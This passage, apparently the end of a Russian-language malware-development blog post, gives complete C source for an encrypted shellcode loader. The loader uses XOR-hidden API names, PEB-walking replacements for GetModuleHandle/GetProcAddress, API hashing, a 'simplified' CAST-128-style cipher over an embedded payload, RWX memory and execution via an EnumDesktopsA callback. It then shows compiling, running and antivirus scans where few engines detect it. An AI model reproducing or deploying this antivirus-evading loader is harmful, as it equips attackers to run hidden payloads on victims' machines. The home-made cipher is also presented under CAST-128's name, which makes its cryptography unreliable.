* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>
#include <winternl.h>
#include <shlwapi.h>
#include <string.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

int cmpUnicodeStr(WCHAR substr[], WCHAR mystr[]) {
  _wcslwr_s(substr, MAX_PATH);
  _wcslwr_s(mystr, MAX_PATH);

  int result = 0;
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef BOOL (CALLBACK * EnumDesktopsA_t)(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);

LPVOID (WINAPI * pva)(LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char cva[] = 
{ 0x27, 0x1c, 0x13, 0x17, 0x1e, 0x10, 0x19, 0x20, 0xf, 0x7, 0x1e, 0x16 };
unsigned char udll[] = 
{ 0x4, 0x6, 0x4, 0x11, 0x58, 0x43, 0x5b, 0x5, 0xf, 0x7 };
unsigned char kdll[] = 
{ 0x1a, 0x10, 0x13, 0xd, 0xe, 0x1d, 0x46, 0x53, 0x4d, 0xf, 0x1d, 0x19 };

char secretKey[] = "quackquack";

// encryption / decryption XOR function
void d(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}

// custom implementation
HMODULE myGM(LPCWSTR lModuleName) {

  // obtaining the offset of PPEB from the beginning of TEB
  PEB* pPeb = (PEB*)__readgsqword(0x60);

  // obtaining the address of the head node in a linked list 
  // which represents all the models that are loaded into the process.
  PEB_LDR_DATA* Ldr = pPeb->Ldr;
  LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList; 

  // iterating to the next node. this will be our starting point.
  LIST_ENTRY* pStartListEntry = ModuleList->Flink;

  // iterating through the linked list.
  WCHAR mystr[MAX_PATH] = { 0 };
  WCHAR substr[MAX_PATH] = { 0 };
  for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; 
  pListEntry = pListEntry->Flink) {

    // getting the address of current 
    // LDR_DATA_TABLE_ENTRY (which represents the DLL).
    LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)
    ((BYTE*)pListEntry - sizeof(LIST_ENTRY));

    // checking if this is the DLL we are looking for
    memset(mystr, 0, MAX_PATH * sizeof(WCHAR));
    memset(substr, 0, MAX_PATH * sizeof(WCHAR));
    wcscpy_s(mystr, MAX_PATH, pEntry->FullDllName.Buffer);
    wcscpy_s(substr, MAX_PATH, lModuleName);
    if (cmpUnicodeStr(substr, mystr)) {
      // returning the DLL base address.
      return (HMODULE)pEntry->DllBase;
    }
  }

  // the needed DLL wasn't found
  printf("failed to get a handle to %s\n", lModuleName);
  return NULL;
}

FARPROC myGPA(HMODULE hModule, LPCSTR lpProcName) {
  PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
  PIMAGE_NT_HEADERS ntHeaders = 
  (PIMAGE_NT_HEADERS)((BYTE*)hModule + dosHeader->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY exportDirectory = 
  (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + 
  ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress);

  DWORD* addressOfFunctions = (DWORD*)((BYTE*)hModule + 
  exportDirectory->AddressOfFunctions);
  WORD* addressOfNameOrdinals = (WORD*)((BYTE*)hModule + 
  exportDirectory->AddressOfNameOrdinals);
  DWORD* addressOfNames = (DWORD*)((BYTE*)hModule + 
  exportDirectory->AddressOfNames);

  for (DWORD i = 0; i < exportDirectory->NumberOfNames; ++i) {
    if (strcmp(lpProcName, (const char*)hModule + addressOfNames[i]) == 0) {
      return (FARPROC)((BYTE*)hModule + addressOfFunctions
      [addressOfNameOrdinals[i]]);
    }
  }

  return NULL;
}

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib + 1) & 0xFFFF); // avoid division by zero
  *d = (*d ^ f) & 0xFFFFFFFF;
}

void f3(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia - Ib) & 0xFFFF); // ensure no overflow
  *d = (*d ^ f) & 0xFFFFFFFF;
}

// key schedule for CAST-128
void cast_key_schedule(uint32_t* key, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < ROUNDS; i++) {
    subkeys[i][0] = key[0];
    subkeys[i][1] = key[1];
    subkeys[i][2] = key[2];
    subkeys[i][3] = key[3];
  }
}

// CAST-128 encryption
void cast_encrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = 0; i < ROUNDS; i++) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

// CAST-128 decryption
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

DWORD calcMyHash(char* data) {
  DWORD hash = 0x23;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + 
  img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
    //   printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // decrypt function string
  d((char*)cva, sizeof(cva), secretKey, sizeof(secretKey));
  // allocate memory buffer for payload
  d((char*)kdll, sizeof(kdll), secretKey, sizeof(secretKey));

  wchar_t wtext[20];
  mbstowcs(wtext, kdll, strlen(kdll)+1); //plus null
  LPWSTR k_dll = wtext;

//   HMODULE kernel = GetModuleHandle((LPCSTR)kdll);
  HMODULE kernel = myGM(k_dll);
//   pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress
// (kernel, (LPCSTR)cva);
  pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))myGPA(kernel, 
  (LPCSTR)cva);

  // allocate a single block for execution
  mem_block = pva(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  d((char*)udll, sizeof(udll), secretKey, sizeof(secretKey));
  HMODULE mod = LoadLibrary((LPCSTR)udll);
  LPVOID addr = getAPIAddr(mod, 121801766);
//   printf("0x%p\n", addr);
  EnumDesktopsA_t myEnumDesktopsA = (EnumDesktopsA_t)addr;

  // execute the shellcode using EnumDesktopsA
  myEnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}

int main() {
  unsigned char padded[] = "\x92\x15\x7e\x1b\x46\x4d\xff\xff"
  "\x7d\x55\x52\x41\x61\xcc\x51\x41\x52\x73\x83\x33\x2f\x47"
  "\xd2\x65\x4d\x72\xd9\x32\xdd\x92\x8b\x52\x30\x50\x76\xc3"
  "\xe3\xb6\x3e\x48\x6f\x80\xe7\x74\xca\x8c\xb7\x4a\x89\xcf"
  "\xf1\x65\x42\x9b\xc0\xac\x5a\xe1\x3d\xc3\x26\x8d\x41\xc1"
  "\x46\xf4\xac\x53\x3c\x8f\xed\x52\x10\x26\x1e\x76\x05\x3b"
  "\x20\x3e\x00\x11\x02\xc3\x0f\x05\x3e\x8b\x13\x71\x86\xc0"
  "\x85\x91\x85\xc0\xc1\x50\x76\x8a\x32\xda\x3e\x8b\x3e\x91"
  "\x1e\x0d\xf6\x65\x20\x49\x8e\x91\x29\x62\xf9\x95\xc9\x3e"
  "\x8b\x52\xe3\xc5\x51\x22\xd6\x4d\x6b\x09\x09\xf0\x50\x32"
  "\x41\xc1\x55\x4b\xa1\x74\x68\x80\xe0\x75\xf1\x72\x45\x46"
  "\x75\xb8\x08\x45\x93\xd8\x30\x5d\x6f\x63\x44\x8b\xb9\x22"
  "\x77\x40\x76\xc8\x3e\x41\x3f\x54\x09\x22\x2d\x60\x40\x1c"
  "\xdb\x68\xd5\xb6\xb6\x1a\x04\x88\xbd\x8f\x88\x1f\x40\xa3"
  "\x58\x5e\x70\xc9\x03\x02\xde\x9d\x41\x5a\x19\x2f\x13\xc0"
  "\xee\xa8\xff\xe0\x7b\xc0\xd2\x48\xf9\xce\x8b\x12\xd9\x7d"
  "\xb6\x38\x65\x8d\x49\xc7\x01\x27\x48\x8d\x11\x1d\x48\x8d"
  "\x66\xfb\x4c\x8d\x16\x1b\x4c\x8d\xf3\xa0\x30\xc9\x7a\x8a"
  "\x31\xc9\xf9\x77\x45\x55\x3e\x46\xff\xd5\x56\x36\xa7\x8c"
  "\x88\x2d\xba\xa6\x7c\xde\x19\x3b\x80\x97\x83\xc4\x18\x6a"
  "\xfd\x9c\x1e\xc3\xfb\xe0\x68\xd9\xcb\x2d\x36\xff\x6f\x6a"
  "\x41\x7e\x94\xc4\xa7\xf9\xd5\x4d\x35\x1b\x18\x5a\x71\x2c"
  "\x6f\x77\xed\x5f\x63\x63\x0d\x41\x5e\x3d\x00\x00";

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  cast_decrypt_and_execute_shellcode(padded, sizeof(padded), subkeys);

  return 0;
}
```

### демонстрация 3

Компилируем эту версию:    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermission
```

{width="80%"}      

Затем запускаем эту версию на `windows 11 x64`:    

```powershell
.\hack3.exe
```

{width="80%"}      

Как можно видеть, эта версия также работает идеально! =^..^=

Загружаем эту версию в антивирусный сканер:     

{width="80%"}      

Обратите внимание, что только `Windows Defender` и `Secureageapex` обнаруживают этот файл как вредоносный:     

{width="80%"}      

[https://websec.nl/en/scanner/result/e2b88162-fd20-4f4b-974a-b4182747f0cb](https://websec.nl/en/scanner/result/e2b88162-fd20-4f4b-974a-b4182747f0cb)      

Загружаем `hack3.exe` в VirusTotal:    

{width="80%"}      

[https://www.virustotal.com/gui/file/314a02b70ec00b33aaf1882f8c330a8bfe7c951a32d1b103986052313a4fb5b3/detection](https://www.virustotal.com/gui/file/314a02b70ec00b33aaf1882f8c330a8bfe7c951a32d1b103986052313a4fb5b3/detection)     

**Как можно видеть, только 8 из 75 антивирусных движков определяют файл как вредоносный.**     

Несмотря на свои преимущества, `CAST-128` стал объектом нескольких криптоаналитических исследований:

*Дифференциальный криптоанализ:* Этот метод пытается выявить предсказуемые изменения на выходе, вызванные конкретными изменениями входных данных. Конструкция `CAST-128`, особенно нелинейные `S-box`-ы и ключезависимые преобразования, обеспечивают защиту от этой атаки.     

*Линейный криптоанализ:* Этот метод пытается найти линейные приближения, описывающие поведение блочного шифра. Структура `CAST-128` и его генерация ключей делают линейные приближения сложными, обеспечивая защиту от данного вида анализа.      

Согласно Википедии, на сегодняшний день не обнаружено практических атак, которые могли бы взломать `CAST-128` быстрее, чем полный перебор, что делает его надежным выбором для приложений, требующих надежного шифрования.     

Хотя моя реализация упрощена и `CAST-128` не так широко используется сегодня, как некоторые другие шифры, например, AES, он остается надежным алгоритмом шифрования, особенно когда обратная совместимость или специфические требования безопасности диктуют его использование. Тщательная конструкция `S-box`ов и ключевого расписания способствует его устойчивости к известным криптоаналитическим атакам.    

Надеюсь, этот пост будет полезен исследователям вредоносного ПО, C/C++ программистам, повысит осведомленность синих команд об этой интересной технике шифрования и добавит оружие в арсенал красных команд.    

[CAST-128 encryption](https://en.wikipedia.org/wiki/CAST-128)      
[AV engines evasion for C++ simple malware - part 2: function call obfuscation](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    
[AV engines evasion techniques - part 5. Simple C++ example.](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html)     
[Malware AV/VM evasion - part 15: WinAPI GetModuleHandle implementation. Simple C++ example.](https://cocomelonc.github.io/malware/2023/04/08/malware-av-evasion-15.html)      
[Malware AV/VM evasion - part 16: WinAPI GetProcAddress implementation. Simple C++ example.](https://cocomelonc.github.io/malware/2023/04/16/malware-av-evasion-16.html)     
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-07-29-malware-cryptography-31)    
